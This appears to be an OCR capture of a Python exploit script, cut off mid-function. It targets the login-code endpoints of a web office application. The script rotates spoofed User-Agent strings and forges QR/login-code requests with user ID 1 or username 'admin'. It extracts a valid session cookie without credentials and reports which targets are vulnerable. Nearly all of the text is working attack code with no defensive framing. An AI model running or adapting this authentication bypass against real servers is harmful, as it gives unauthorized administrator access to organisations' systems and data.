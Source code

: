 ```python
    "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; QQBrowser/7.0.3698.400)",
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; SV1; QQDownload 732; .NET4.0C; .NET4.0E; 360SE)",
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
    "Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1",
    "Mozilla/5.0 (iPad; U; CPU OS 4_2_1 like Mac OS X; zh-cn) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8C148 Safari/6533.18.5",
    "Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0b13pre) Gecko/20110307 Firefox/4.0b13pre",
    "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:16.0) Gecko/20100101 Firefox/16.0",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11",
    "Mozilla/5.0 (X11; U; Linux x86_64; zh-CN; rv:1.9.2.10) Gecko/20100922 Ubuntu/10.10 (maverick) Firefox/3.6.10"
]

headers={}

def getV11Session(url):
    checkUrl = url+'/general/login_code.php'
    try:
        headers["User-Agent"] = choice(USER_AGENTS)
        res = requests.get(checkUrl,headers=headers)
        resText = str(res.text).split('{')
        codeUid = resText[-1].replace('}"}', '').replace('\r\n', '')
        getSessUrl = url+'/logincheck_code.php'
        res = requests.post(
            getSessUrl, data={'CODEUID': '{'+codeUid+'}', 'UID': int(1)},headers=headers)
        tmp_cookie = res.headers['Set-Cookie']
        headers["User-Agent"] = choice(USER_AGENTS)
        headers["Cookie"] = tmp_cookie
        check_available = requests.get(url + '/general/index.php',headers=headers)
        if '用户未登录' not in check_available.text:
            if '重新登录' not in check_available.text:
                print('[+]Get Available COOKIE:' + tmp_cookie)
        else:
            print('[-]Something Wrong With ' + url + ',Maybe Not Vulnerable.')
    except:
        print('[-]Something Wrong With '+url)



def get2017Session(url):
    checkUrl = url+'/ispirit/login_code.php'
    try:
        headers["User-Agent"] = choice(USER_AGENTS)
        res = requests.get(checkUrl,headers=headers)
        resText = json.loads(res.text)
        codeUid = resText['codeuid']
        codeScanUrl = url+'/general/login_code_scan.php'
        res = requests.post(codeScanUrl, data={'codeuid': codeUid, 'uid': int(
            1), 'source': 'pc', 'type': 'confirm', 'username': 'admin'},headers=headers)
        resText = json.loads(res.text)
        status = resText['status']
        if status == str(1):
            getCodeUidUrl = url+'/ispirit/login_code_check.php?codeuid='+codeUid
```